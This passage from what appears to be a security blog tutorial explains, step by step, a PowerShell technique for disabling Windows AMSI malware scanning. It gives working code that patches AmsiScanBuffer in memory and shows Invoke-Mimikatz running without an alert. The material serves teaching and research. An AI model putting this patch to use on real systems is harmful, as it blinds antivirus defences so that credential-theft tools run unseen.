 ```c#
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}"@
```

In the above code, we are first loading the required namespaces. `System.Runtime.InteropServices` is where pinvoke implemented. Then we are defining the signature for each native API, I have taken them from pinvoke.net. We need to load the above C# code inside powershell session using Add-Type.

```c#
Add-Type $code
```

Now we can use those API calls from inside powershell session.

```c#
$amsiDll = [WinApi]::LoadLibrary("amsi.dll")
$asbAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScan"+"Buf"+"fer")
$ret = [Byte[]] ( 0xc3, 0x80, 0x07, 0x00,0x57, 0xb8 )
$out = 0

[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddr, $ret.Length)
[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, $out, [ref] $null)
```

In the above code, first we are getting the handle to the amsi.dll library then calling GetProcAddress to get the address to the AmsiScanBuffer function inside amsi.dll. Then we are defining a variable named $ret which contains the bytes which will overwrite the very first instructions of AmsiScanBuffer, $out is what will contain the old permission of the memory region returned by VirtualProtect then we are calling VirtualProtect to change the permission of AmsiScanBuffer region to RWX(0x40) and then using Marshal.Copy to copy bytes from managed memory region to unmanaged and then calling VirtualProtect again to change back the permission of AmsiScanBuffer to previous one which we had stored in $out.

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210816164830.png)

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210816164938.png)

As can be seen above, now passing "Invoke-Mimikatz" doesn't trigger amsi alert. If you have attached the powershell session to WinDBG, you can verify if the AmsiScanBuffer was overwritten with our bytes.

Thank you very much for taking your time in reading this. Feel free to reach out to me @dazzyddos for any query or if there's any correction or addition needed.

![](https://raw.githubusercontent.com/dazzyddos/dazzyddos.github.io/master/Images/amsibypass/Pasted%20image%2020210816164903.png)

### Resources

https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal

https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

https://fluidattacks.com/blog/amsi-bypass/

https://frida.re









